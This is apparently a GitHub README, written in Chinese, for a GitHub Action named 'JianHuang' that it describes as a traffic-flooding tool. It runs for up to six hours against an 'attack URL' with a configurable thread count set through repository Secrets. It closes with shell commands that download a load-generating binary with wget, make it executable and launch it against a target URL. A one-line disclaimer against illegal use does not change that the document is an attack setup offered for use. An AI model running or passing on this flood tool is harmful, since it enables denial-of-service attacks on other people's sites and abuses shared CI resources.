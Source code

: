 # jianhuang
Github Action JianHuang
剑皇（刷流量） 最长可执行6HOUR
支持设定攻击URL和线程


# 使用方法
添加Secrets
#Name     Value
#URL      攻击URL
#XC       线程数

点击STAR开始执行

# 声明
请勿用于非法用途


wget https://github.com/maintell/webBenchmark/releases/download/0.1/webBenchmark_linux_x64
chmod +x webBenchmark_linux_x64
./webBenchmark_linux_x64 -c 32 -s http://
